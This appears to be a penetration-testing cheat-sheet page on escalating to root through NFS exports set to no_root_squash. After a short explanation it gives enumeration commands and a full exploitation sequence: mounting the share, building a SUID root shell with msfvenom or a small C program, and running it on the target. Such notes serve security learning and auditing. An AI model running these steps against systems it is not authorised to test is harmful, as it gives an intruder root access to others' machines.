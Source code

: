 # No\_root\_squash option

No\_root\_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

Check /etc/exports file, if you find some directory that is configured as no\_root\_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.&#x20;

### Enumeration

{% code overflow="wrap" %}
```bash
# linpeas will detect the no_root_squash option
./linpeas.sh

# Manual Check
cat /etc/exports
# /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)   

cat /etc/lib/nfs/etab
```
{% endcode %}

### Exploitation

{% code overflow="wrap" %}
```bash
# Check export list
showmount -e 192.168.142.154

# Mount the nfs share at kali
mkdir /tmp/nfs 
mount -o rw,vers=2 192.168.142.154:/tmp /tmp/nfs

# Create a shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf 

# or
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/nfs/shell.c
gcc /tmp/nfs/shell.c -o /tmp/nfs/shell.elf

# Add SUID bit
chmod +xs /tmp/nfs/shell.elf

# Run the shell on victim machine
/tmp/shell.elf  
```
{% endcode %}
